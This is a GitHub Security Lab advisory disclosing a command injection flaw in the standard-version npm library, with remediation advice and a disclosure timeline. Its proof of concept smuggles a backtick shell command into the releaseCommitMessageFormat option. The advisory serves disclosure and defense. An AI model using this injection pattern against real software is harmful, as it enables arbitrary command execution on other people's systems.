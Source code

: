 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">August 6, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-111: Command injection vulnerability in standard-version</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/kevinbackhouse">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/4358136?s=35" height="35" width="35">
        <span>Kevin Backhouse</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>The <code class="language-plaintext highlighter-rouge">standardVersion</code> function has a command injection vulnerability. Clients of the <code class="language-plaintext highlighter-rouge">standard-version</code> library are unlikely to be aware of this, so they might unwittingly write code that contains a vulnerability.</p>

<h2 id="product">Product</h2>
<p>Standard Version</p>

<h2 id="tested-version">Tested Version</h2>
<p>Commit <a href="https://github.com/conventional-changelog/standard-version/tree/2f04ac8fc1c134a1981c23a093d4eece77d0bbb9/">2f04ac8</a></p>

<h2 id="details">Details</h2>

<h3 id="issue-1-command-injection-in-standardversion">Issue 1: Command injection in <code class="language-plaintext highlighter-rouge">standardVersion</code></h3>

<p>The following proof-of-concept illustrates the vulnerability. First install Standard Version and create an empty git repo to run the PoC in:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>npm install standard-version
git init
echo "foo" &gt; foo.txt # the git repo has to be non-empty
git add foo.txt
git commit -am "initial commit"
</code></pre></div></div>

<p>Now create a file with the following contents:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>var fs = require("fs");
// setting up a bit of environment
fs.writeFileSync("package.json", '{"name": "foo", "version": "1.0.0"}');

const standardVersion = require('standard-version')

standardVersion({
  noVerify: true,
  infile: 'foo.txt',
  releaseCommitMessageFormat: "bla `touch exploit`"
})
</code></pre></div></div>

<p>and run it:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>node test.js
</code></pre></div></div>

<p>Notice that a file named <code class="language-plaintext highlighter-rouge">exploit</code> has been created.</p>

<p>This vulnerability is similar to command injection vulnerabilities that have been found in other Javascript libraries. Here are some examples:
<a href="https://github.com/advisories/GHSA-m8xj-5v73-3hh8">CVE-2020-7646</a>,
<a href="https://github.com/advisories/GHSA-426h-24vj-qwxf">CVE-2020-7614</a>,
<a href="https://github.com/advisories/GHSA-5q88-cjfq-g2mh">CVE-2020-7597</a>,
<a href="https://github.com/advisories/GHSA-4gp3-p7ph-x2jr">CVE-2019-10778</a>,
<a href="https://github.com/advisories/GHSA-84cm-v6jp-gjmr">CVE-2019-10776</a>,
<a href="https://github.com/advisories/GHSA-9jm3-5835-537m">CVE-2018-16462</a>,
<a href="https://github.com/advisories/GHSA-7g2w-6r25-2j7p">CVE-2018-16461</a>,
<a href="https://github.com/advisories/GHSA-cfhg-9x44-78h2">CVE-2018-16460</a>,
<a href="https://github.com/advisories/GHSA-pp57-mqmh-44h7">CVE-2018-13797</a>,
<a href="https://github.com/advisories/GHSA-c9j3-wqph-5xx9">CVE-2018-3786</a>,
<a href="https://github.com/advisories/GHSA-wjr4-2jgw-hmv8">CVE-2018-3772</a>,
<a href="https://github.com/advisories/GHSA-3pxp-6963-46r9">CVE-2018-3746</a>,
<a href="https://github.com/advisories/GHSA-jcw8-r9xm-32c6">CVE-2017-16100</a>,
<a href="https://github.com/advisories/GHSA-qh2h-chj9-jffq">CVE-2017-16042</a>.</p>

<p>We have written a <a href="https://codeql.com">CodeQL</a> query, which automatically detects this vulnerability. You can see the results of the query on the <code class="language-plaintext highlighter-rouge">standard-version</code> project <a href="https://lgtm.com/query/237522640229151035/">here</a>.</p>

<h4 id="impact">Impact</h4>

<p>This issue may lead to remote code execution if a client of the library calls the vulnerable method with untrusted input.</p>

<h4 id="remediation">Remediation</h4>

<p>We recommend not using an API that can interpret a string as a shell command. For example, use <a href="https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback"><code class="language-plaintext highlighter-rouge">child_process.execFile</code></a> instead of <a href="https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback"><code class="language-plaintext highlighter-rouge">child_process.exec</code></a>.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>2020-05-19: Emailed report to joe.bottigliero@gmail.com</li>
  <li>2020-06-15: Created an <a href="https://github.com/conventional-changelog/standard-version/issues/602">issue</a> on their repo.</li>
  <li>2020-07-12: GHSA published: <a href="https://github.com/conventional-changelog/standard-version/security/advisories/GHSA-7xcx-6wjh-7xp2">GHSA-7xcx-6wjh-7xp2</a>. Fixed version is 8.0.1.</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GitHub Engineer <a href="https://github.com/erik-krogh">@erik-krogh (Erik Krogh Kristensen)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include <code class="language-plaintext highlighter-rouge">GHSL-2020-111</code> in any communication regarding this issue.</p>

    